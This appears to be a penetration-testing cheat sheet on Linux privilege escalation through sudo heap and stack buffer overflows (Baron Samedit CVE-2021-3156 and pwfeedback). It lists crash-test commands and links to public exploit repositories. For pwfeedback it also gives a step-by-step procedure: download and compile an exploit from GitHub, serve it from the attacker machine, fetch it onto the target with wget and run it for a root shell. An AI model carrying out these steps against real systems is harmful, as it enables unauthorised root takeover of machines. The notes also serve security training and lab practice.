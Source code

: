 ```yaml
---
title: Buffer Overflow Privilege Escalation
description: Buffer overflow in Linux might be vulnerable to privilege escalation (PrivEsc).
tags:
    - Linux
    - Privilege Escalation
refs:
date: 2024-06-27
draft: false
---
```


## Baron Samedit (Heap Buffer Overflow) CVE-2021-3156

### 1. Check Vulnerability to Overwrite Heap Buffer in Target Machine

```sh
sudoedit -s '\' $(python3 -c 'print("A"*1000)')
malloc(): invalid size (unsorted)
Aborted
```

### 2. Proof of Concept

There are various PoC online.

- [https://github.com/lockedbyte/CVE-Exploits/tree/master/CVE-2021-3156](https://github.com/lockedbyte/CVE-Exploits/tree/master/CVE-2021-3156).
- [https://github.com/blasty/CVE-2021-3156](https://github.com/blasty/CVE-2021-3156)

<br />

## Pwfeedback

### 1. Check Enabling the Pwfeedback in /etc/sudoers

If so, when running sudo command and inputting password, asterisk will be displayed.  
You can make it the buffer overflow.

```sh
cat /etc/sudoers

# -------------------------------------------

...
Defaults pwfeadback
...
```

### 2. Input Long String to Password

```sh
perl -e 'print(("A" x 100 . "\x{00}") x 50)' | sudo -S id
# [sudo] password: Segmentation fault
```

### 3. Download a Payload and Compile in Local Machine

```sh
wget https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/master/exploit.c
gcc -o exploit exploit.c
```

### 4. Transfer the Payload to Remote Machine

```sh
# In local machine
python3 -m http.server 8000

# In remote machine
wget http://<local-ip>:8000/exploit
```

### 5. Execute the Payload in Remote Machine

After that, you'll get a root shell.

```sh
chmod 700 ./exploit
./exploit
```